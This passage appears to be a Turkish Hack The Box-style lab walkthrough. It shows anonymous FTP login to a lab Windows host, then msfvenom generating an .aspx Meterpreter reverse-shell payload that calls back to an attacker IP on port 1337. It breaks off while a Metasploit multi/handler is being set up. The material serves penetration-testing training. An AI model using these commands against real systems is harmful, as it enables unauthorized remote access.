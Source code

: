 
#### FTP Anonymous Access
```shell-session
M1R4CKCK@htb[/htb]$ ftp 10.10.10.5

Connected to 10.10.10.5.
220 Microsoft FTP Service


Name (10.10.10.5:root): anonymous

331 Anonymous access allowed, send identity (e-mail name) as password.


Password: ******

230 User logged in.
Remote system type is Windows_NT.


ftp> ls

200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

aspnet_client'ı fark ettiğimizde, kutunun `.aspx` reverse shell'leri çalıştırabileceğini anlıyoruz. Neyse ki `msfvenom` bunu herhangi bir sorun olmadan yapabiliyor.


#### Generating Payload
```shell-session
M1R4CKCK@htb[/htb]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2819 bytes
```

Şimdi, sadece `http://10.10.10.5/reverse_shell.aspx` adresine gitmemiz gerekiyor ve bu `.aspx` payload'unu tetikleyecektir. Ancak bunu yapmadan önce, msfconsole üzerinde bir listener başlatmalıyız ki reverse connection isteği onun içinde yakalansın.

#### MSF - Setting Up Multi/Handler
```shell-session
M1R4CKCK@htb[/htb]$ msfconsole -q 

msf6 > use multi/handler
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
```